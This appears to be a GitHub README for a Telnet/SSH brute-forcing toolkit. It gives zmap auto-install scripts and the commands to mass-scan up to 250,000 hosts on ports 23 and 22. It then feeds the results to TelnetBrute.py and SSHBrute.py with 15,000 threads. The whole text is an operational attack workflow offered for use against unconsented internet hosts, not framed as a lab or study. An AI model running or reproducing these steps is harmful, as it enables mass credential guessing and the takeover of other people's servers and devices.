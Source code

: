 [VPS CentOS 6.9/6.8] (Recomendado)

- Install zmap

1- sh CentOS_zmap_auto_install.sh OR Debian_zmap_auto_install.sh

- Scan Telnet/Ssh Ips

1- ulimit -n 999999

2- zmap -p23 -o mfutelnet.txt -N 250000    ---OR---    zmap -p22 -o mfussh.txt -N 250000

   1,5-(optional)  zmap -p23 -o mfutelnet.txt -w telnet.lst   ---OR---   zmap -p22 -o mfussh.txt -w ssh.lst

- Bruteforce 

2- ulimit -n 999999

3- python TelnetBrute.py mfutelnet.txt 15000 telnettest.txt    ---OR---    python SSHBrute.py mfussh.txt 15000 sshtest.txt 




<img src="https://raw.githubusercontent.com/XeljomudoX/TelnetBrute.py/master/lul.png">



